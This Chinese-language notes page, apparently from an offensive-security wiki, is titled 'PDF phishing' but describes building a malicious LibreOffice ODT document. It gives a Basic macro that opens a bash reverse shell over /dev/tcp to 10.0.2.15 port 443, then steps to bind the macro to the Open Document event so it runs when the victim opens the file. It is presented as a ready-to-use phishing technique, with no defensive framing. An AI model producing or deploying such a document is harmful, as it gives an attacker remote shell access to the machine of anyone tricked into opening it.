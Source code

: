 ```yaml
---
sidebar_position: 1
tags: [钓鱼]
title: PDF 钓鱼
sidebar_label: PDF 钓鱼
description: 介绍关于使用 PDF 进行钓鱼的手段
---
```

# PDF
## malicious macro
### odf
1. 使用 LibreOffice Writer 工具创建一个文件, 并保存文件为 `filename.odt`
2. 前往 `Tools` --> `Macros` --> `Organize Macros` --> `Basic` --> `document`
3. 点击创建按钮, 并给 Macro 起一个名称, 对应的内容可以参考下面

```bash
REM  *****  BASIC  *****
Sub on_open(oEvent As Object)

    Call Main

End Sub

Sub Main

	Shell("bash -c 'bash -i >& /dev/tcp/10.0.2.15/443 0>&1'")
  
End Sub
```

![image.png](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240413223919.png)

保存文件后, 进行相关设置以保证在文件打开的时候开始执行命令

1. 点击 `Tools` --> `Customize` --> `Events` --> `Open Document` --> `Macro`
2. 选择对应的文档, 并宣传 `on_open`
3. 随后保存文档就可以了